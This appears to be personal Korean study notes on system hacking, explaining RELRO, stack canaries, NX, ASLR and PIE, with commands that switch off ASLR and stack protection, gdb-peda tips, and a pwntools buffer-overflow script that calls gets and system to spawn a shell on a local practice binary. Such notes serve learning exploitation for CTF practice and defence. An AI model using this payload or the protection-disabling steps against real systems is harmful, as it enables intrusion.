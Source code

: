## 시스템 해킹



### 보안 메커니즘 확인

#### RELRO

RELocation ReadOnly의 약자로 메모리에 배치된 어느 부분에 대해 ReadOnly 속성을 부여할 것인지를 결정

GOT Overwrite 공격이 성공하려면 **No RELRO, Partial RELRO**여야 한다.

**Full RELRO**는 프로그램이 시작할 때 공유 라이브러리의 주소를 모두 캐시한 이후에 GOT 영역을 읽기 전용으로 변경하기 때문에 GOT Overwrite공격은 불가능



#### Stack Smash Protection

SSP는 스택 위에서 발생하는 버퍼 오버플로우를 막기 위한 장치. Canary를 로컬변수와 saved ebp사이에 넣어서 함수가 종료될 때 그 값이 다시 써졌는지 판별해 오버플로우를 검출. 발생한다면 해당 프로그램 강제 종료

> gcc에서 -fno-stack-protector 옵션으로 비활성화 가능



#### NX bit

No eXcute bit, 윈도우에서는 DEP(Data Execution Prevention; 데이터 실행 방지)

메모리상에서 실행될 필요가 없는 데이터를 실행 불가능하도록 설정해서 공격자가 셸 코드를 사용해 공격하는 것을 어렵게 만듬.

> gcc에서 -z execstack 옵션을 사용해 NX bit을 사용하지 않고 컴파일 할 수 있다.



#### ASLR

Address Space Layout Randomization 스택과 힙, 공유 라이브러리 등을 메모리 적재 시, 주소의 일부를 랜덤화 하여 추측이 어렵게 함

> off : sudo sysctl -w kernel.randomize_va_space=0
>
> on : sudo sysctl -w kernel.randomize_va_space=2



#### PIE

Position Independent Executable(PIE)는 실행 코드 내의 주소 참조를 모두 상대 주소로 만들어 실행 파일이 메모리의 어느 위치에 위치하더라도 성공적으로 실행될 수 있게 컴파일 된 실행 파일. 실행 파일을 메모리에 적재할 때 위치를 임의적으로 결정할 수 있기 때문에 ASLR로는 할 수 없는 파일의 위치를 무작위로 만들 수 있다.

---



### Using gdb peda 

```shell
pdisas main
context register/stack/code

#특정 스트링 검색
find "/bin/sh"
```



### Bufferover flow

```shell
# 메모리주소 고정
echo 0 > /proc/sys/kernel/randomize_va_space
```



### pwntools test

```python
#!/usr/bin/python

from pwn import *

e = ELF("./pwn")
p = process(e.path)
l = e.libc
raw_input(">>> ")

payload = ''
payload +='a'*68
payload += p32(e.symbols['gets'])
payload += p32(e.symbols['system']) #dummy
payload += p32(e.bss())
payload += p32(e.bss())

p.sendline(payload)
p.sendline("/bin/sh\x00")
p.interactive()
```



#### ASLR 우회

32bit의 경우 주소의 폭도 32bit라 무작위로 만들수 있는 주소도 한정적이다. 프로그램 내에서 사용하는 공용 라이브러리 mmap을 통해 배치되기 때문에 32bit의 경우 8bit; 256개로만 무작위가 가능


